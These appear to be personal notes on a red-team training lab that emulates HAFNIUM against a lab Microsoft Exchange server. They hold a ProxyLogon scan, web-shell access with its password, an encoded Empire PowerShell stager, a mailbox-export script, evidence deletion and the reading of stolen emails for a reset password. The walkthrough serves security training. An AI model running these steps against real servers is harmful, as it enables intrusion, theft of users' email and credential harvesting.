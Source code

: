 #### Tags: [[12 - Command and Control (TA0011)]] | [[Creating and Testing Payloads]]
## Objectives

    Scan the Microsoft Exchange server
    Use a web shell to interact with the mail server
    Execute an Empire stager on the mail server
    Export user emails
    Read user emails for target intelligence
### Scan Microsoft Exchange
```markdown
# Scan mail server
cd /labs/sec-3/initial-access/

curl https://raw.githubusercontent.com/GossiTheDog/scanning/main/http-vuln-exchange.nse -o http-vuln-exchange.nse

nmap --script http-vuln-exchange.nse mail.draconem.io
```
#### ProxyLogon
- ProxyLogon is the name for CVE-2021-26855 and CVE-2021-27065. CVE-2021-26855 is a vulnerability on Microsoft Exchange that allows authentication bypass. 
- CVE-2021-27065 is a post authentication file write vulnerability. When chained together, they allow remote code execution by allowing an adversary to bypass authentication and write a web shell to the server.
![[Pasted image 20240324024102.png]]
###### Red Team Tip: Only use web shells wiSth authentication, otherwise others could leverage your web shell.
- Note: Depending on client we can request White cell to allow us to simulate exploitation to avoid take down production servers.

### Launch [[Empire C2#Create an Empire listener]]
- Launch Empire and start an http listener on port 8080 for your tun0 interface. 

### Create [[Creating and Testing Payloads#*Payload * Create interactive HTTP Powershell Stager|Payload: Interactive HTTP Powershell Stager]]


### Interact with the Web Shell
- Navigate to URL to explore the webshell as it comes with a lot of functionality!
	- Password: `#$pwn3daspx#$h3ll` to authenticate to the web shell

![[Pasted image 20240324031111.png]]
#### Notes
- IIS Default Directory: `C:\Inetpub`
- Exchange Default Directory: `C:\Program _Files_\_Microsoft_\_Exchange Server_\V15\ClientAccess\Owa`
- Find a file via PowerShell `Get-ChildItem -Path 'C:\' -Recurse -Include 'rt-webshell-xcowe83.aspx' -File -Force`
- WebShell Path on Target system: `C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\rt-webshell-xcowe83.aspx`
- ASPX WebShell on Private GitHub: [**AspxRevShell**](https://github.com/raghavtalwar/Arsenal/tree/main/AspxRevShell)
 
### Deploy Agent on mail.draconem.io
*Goal:* We want to get an agent/beacon on this Microsoft Exchange system in order to bring more tools and capability.
1. Click Cmd command in the top navigation window. 
2. Paste your PowerShell stager into Statements to spawn a new agent. 
3. Click carried out and check starkiller for a new agent.
**Remember:** The Statements field should start with `/c powershell -noP -sta -w 1 -enc ...`

![[Pasted image 20240324032203.png]]

![[Pasted image 20240324032430.png]]

### Enumerate Users
- *Goal:* Pick up target intelligence from user email
- The `Microsoft.Exchange.Management.Powershell.SnapIn` that will allow us use additional PowerShell functions and cmdlets that interact with Microsoft Exchange
```markdown
# Enumerate the users with mailboxes
powershell -c "Add-PSSnapIn Microsoft.Exchange.Management.Powershell.SnapIn; Get-Recipient | Format-Table -Auto Alias"
```
![[Pasted image 20240324033515.png]]
### Export User Emails
*Goal:* The PS script will leverage Exchange SnapIn, sets an output file and then exports the user's email to a PST file. 
- Create the file on Slingshot Linux at `/labs/sec-3/initial-access/export-email.ps1`
- Note: These commands need to run as a script because there are some inconsistencies with stating UNC paths
```powershell
function Export-Email {
    param (
        $User
    )
    Add-PSSnapIn Microsoft.Exchange.Management.Powershell.SnapIn;
    $OutFile = "\\127.0.0.1\c$\ProgramData\" + $User + ".pst";
    New-MailboxExportRequest -Mailbox $User -FilePath $OutFile;
};
```
We will invoke this script with an Empire module called *invoke_script*. 
- Interact with your agent, select `powershell/management/invoke_script` from the Execute Module drop down list.
- Then enter the following values:

	    ScriptCmd: Export-Email Mark.Goodwin
	    ScriptPath: /labs/sec-3/initial-access/export-email.ps1

![[Pasted image 20240324033656.png]]

- There are many ways to complete a task but these commands mimic the same techniques used by HAFNIUM, the adversary we are emulating.

![[Pasted image 20240324035153.png]]
### Read User Emails
1. Download the exported mailbox by clicking the down arrow icon in the upper right of the agent screen. 
2. The file should be located at `c:\ProgramData\Mark.Goodwin.pst` 
3. After downloading the file delete it off the mail server by issuing this shell command `del c:\ProgramData\Mark.Goodwin.pst`
```markdown
#### Example the PST using readpst
## Find the PST file in our Agent download directory & Copy it
cd /labs/sec-3/initial-access/

find /opt/Empire/empire/server/downloads/ | grep pst

cp /opt/Empire/empire/server/downloads/agent Name/C:/ProgramData/Mark.Goodwin.pst .

readpst -S -o . Mark.Goodwin.pst
```
![[Pasted image 20240324035812.png]]
```markdown
#### readpst has extracted all the emails from the pst file to plain text
## We can now read through them for target intelligence
ll Mark.Goodwin/Inbox/

strings Mark.Goodwin/Inbox/1
```
![[Pasted image 20240324040015.png]]
We just found that Mark Goodwin's password has been reset to `C@v3t3Dr@c0n3m!!`
#### Bonus
- Continue to read through the mailboxes of other users to find additional target intelligence.
## Conclusion
- In this lab we used a web shell that was placed on the Microsoft Exchange server to deploy an agent.
- Once we had positive control of our agent in target space we established our initial access. We were fortunate that our agent is running as SYSTEM and has unfettered access to the system. 
- We then enumerated users and exported a mailbox to read through emails. In those emails we found that the user `Mark.Goodwin` had their password reset to `C@v3t3Dr@c0n3m!!`. 
- We will use this information for later labs. Leave your agent running for the next lab.